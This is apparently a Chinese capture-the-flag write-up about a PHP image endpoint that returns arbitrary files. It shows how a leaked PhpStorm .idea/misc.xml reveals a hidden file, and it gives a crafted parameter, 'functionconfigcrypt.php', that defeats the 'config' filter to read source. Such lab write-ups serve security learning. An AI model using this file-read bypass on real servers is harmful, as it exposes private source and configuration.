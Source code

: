 ```
<?php
/**
 * Created by PhpStorm.
 * User: pfven
 * Date: 2016/7/20
 * Time: 21:35
 */
include 'header.php';
if(isset($_GET["image"])){
    $file = $_GET['image'];
    $file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
    $file = str_replace("config","_", $file);
    $txt = base64_encode(file_get_contents($file));

    echo "<img src='data:image/png;base64,".$txt."'></img>";
}else {
     header("Location: index.php?image=heihei.jpg");

    exit();
}

include 'footer.php';
//***
```
一直卡在这，没找到点。后来看了官方给的提示，简直了，phpstorm的源码泄漏问题

即 使用Phpstorm会自动生成一个文件夹.idea

翻一下目录http://218.76.35.75:20106/.idea/misc.xml

```
<component name="editorHistoryManager">
<entry file="file://$PROJECT_DIR$/function_crypt.php">
<provider selected="true" editor-type-id="text-editor">
<state relative-caret-position="412">
<caret line="54" column="20" selection-start-line="54" selection-start-column="20" selection-end-line="54" selection-end-column="20"/>
<folding/>
</state>
```
可以找到上述的代码和题干的自加密联系起来。

把function_crypt.php源码读取出来

访问http://218.76.35.75:20106/index.php?image=functionconfigcrypt.php(注意过滤)

```
<?php
/**
 * Created by PhpStorm.
 * User: pfven
 * Date: 2016/7/20
 * Time: 17:19
 */

error_reporting(E_ALL || ~E_NOTICE);
include('config.php');
function random($length, $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {
    $hash = '';
    $max = strlen($chars) - 1;
    for($i = 0; $i < $length; $i++)	{
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}
```